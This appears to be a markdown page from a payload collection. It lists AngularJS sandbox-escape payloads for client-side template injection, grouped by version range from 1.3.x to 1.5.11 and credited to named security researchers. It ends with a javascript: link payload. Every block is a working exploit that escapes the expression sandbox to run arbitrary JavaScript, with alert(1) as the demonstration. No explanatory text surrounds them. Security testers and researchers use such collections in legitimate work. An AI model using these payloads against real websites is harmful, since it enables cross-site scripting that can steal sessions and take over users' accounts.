 **1.3.1 - 1.3.2** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

**1.3.3 - 1.3.18** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

**1.3.19** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}

```

**1.3.20** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**1.4.0 - 1.4.9** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

**1.5.0 - 1.5.8** by [Ian Hickey](https://twitter.com/ianhickey1024)

```js
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

**1.5.9 - 1.5.11** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```


[a]: (javascript:prompt(1))